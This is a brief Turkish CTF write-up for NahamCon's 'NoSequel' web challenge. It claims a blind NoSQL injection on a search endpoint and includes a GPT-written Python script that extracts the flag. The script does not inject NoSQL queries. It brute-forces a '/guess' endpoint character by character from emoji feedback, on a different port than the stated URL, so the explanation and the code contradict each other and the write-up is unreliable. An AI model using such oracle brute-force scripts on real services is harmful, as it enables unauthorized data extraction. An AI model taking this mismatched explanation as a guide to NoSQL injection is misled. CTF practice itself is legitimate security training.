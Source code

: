 # WEB Write-up: Nahamsec CTF - NoSequel
##  Challenge Adı
**NoSequel**

## Soru:

![image4](simage4.png)

### Aşamalar

Challenge da verilen URL:
```
http://challenge.nahamcon.com:30927
```

![image6](simage6.png)

**bize search endpointinden db üzerinden flagi çekebiliriz blind nosqli var çünkü endpointe istegi yolladıgımda match edip etmedigini render eden bir sayfa var**
![image5](simage5.png)



**bunun için gptye python scripti yazdırdım**

```python
import requests

URL = "http://challenge.nahamcon.com:31920/guess"
chars = 'abcdefghijklmnopqrstuvwxyz0123456789'
prefix = "flag{"
suffix = "}"
flag_guess = ['a'] * 32

session = requests.Session()
session.headers.update({'Content-Type': 'application/json'})

def make_guess(flag_list):
    guess_str = prefix + ''.join(flag_list) + suffix
    data = {"guess": guess_str}
    try:
        resp = session.post(URL, json=data, timeout=3)
        if resp.status_code != 200:
            return None
        return resp.json()
    except:
        return None

def main():
    for pos in range(32):
        for c in chars:
            flag_guess[pos] = c
            response = make_guess(flag_guess)
            if response is None:
                continue
            emoji_result = response.get('result')
            if emoji_result and emoji_result[pos] == '🟩':
                print(f"Position {pos} fixed as '{c}'")
                break
        else:
            print(f"Failed to find valid char at position {pos}")
            return
    print("FLAG FOUND:", prefix + ''.join(flag_guess) + suffix)

if __name__ == "__main__":
    main()

```

**kodu çalıştırdıgımda flagi buldu**

# FLAG

![image7](simage7.png)
